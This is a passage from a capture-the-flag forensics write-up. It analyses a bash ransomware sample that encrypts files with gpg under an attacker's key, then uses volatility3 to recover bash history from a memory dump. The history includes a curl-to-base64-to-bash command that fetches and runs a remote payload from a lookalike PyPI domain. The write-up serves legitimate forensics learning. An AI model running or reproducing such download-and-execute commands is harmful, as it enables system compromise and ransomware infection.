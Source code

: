 ```
ExoPFDWb3uT189e() {
        uFMHx73AXNF6CTsbtzYM
        MMYPE1MNIGuGPBmyCUo6
        v0nPa1GinWR3Dr27cnmT
}

if [[ "$(whoami)" == "developer7669633432" ]]; then
        if [ -x "$(command -v gpg)" ]; then
                ExoPFDWb3uT189e
                exit 1
        fi
fi
")
eval "$x"
```

After close examination, we found out it actually uses gpg to encrypt the data. 3 functions come into play:

the first function is setting a public PGP key block called RansomKey and set its trust to maximum, in order to use it to encrypt the data.
The next one is responsible for AES256 encrypting .txt .doc .docx .pdf .kdbx .gz \*.rar , by generating a 16 char long passphrase for pgp encryption from this command:

```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ strings /dev/urandom | grep -o '[[:alnum:]]' | head -n 16 | tr -d '\n'
Fsu1b8fs7lsoNJhZ
```
The ransom note and instructions displayed after everything is broken. It is indeed correct that we cannot, in the time allowed for this ctf, crack aes encryption without the passphrase, and the passphrase appears to have been generated randomly from /dev/urandom.
However we have more files.

B. Memory dump and linux image zip

First things first, in order to gather information from a memory dump, we need the volatility tool. Many ressources are available on how to install volatility2 & 3, like hacktricks amongst others. It so happens that it can be more painful for some than for others to install both concurrently, but eventually, both of us got both of them working.

The linux image zip file was actually a symbol table, which hints heavily towards using volatility3 instead of volatility2. Many sources online say volatility2 is the preferred one, can do more things, etc… So we had a little overcoming to do before fully committing. Regardless, it is possible to create profiles for volatility3 by sending those json symbol tables to the /symbols directory from the volatility3 install.

From there, it was finally possible to retrieve some data. The most interesting and useful volatility3 plugin output in our case was the following:
```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ vol -f forensics.mem linux.bash.Bash      
Volatility 3 Framework 2.4.2
Progress:  100.00               Stacking attempts finished                 
PID     Process CommandTime     Command

440     bash    2023-03-03 20:51:15.000000      id
440     bash    2023-03-03 20:51:16.000000      ps aux
440     bash    2023-03-03 20:51:19.000000      ls
440     bash    2023-03-03 20:51:20.000000      uname -a
440     bash    2023-03-03 20:51:27.000000      curl http://files.pypi-install.com/packages/Kxr43fMD9t.manifest|base64 -d|bash
```
